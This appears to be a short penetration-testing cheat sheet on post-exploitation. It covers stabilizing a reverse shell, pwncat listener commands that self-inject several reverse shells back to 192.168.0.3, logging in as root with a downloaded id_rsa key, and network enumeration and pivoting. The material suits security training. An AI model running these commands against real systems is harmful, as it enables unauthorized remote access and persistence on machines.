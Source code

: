 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```
#### Enumeration:
> There are various ways to enumerate other machines in a network


>Using tools avalable on system like using arp -a command.


>Checking /etc/hosts file.


>Using local tools through proxy.


#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|
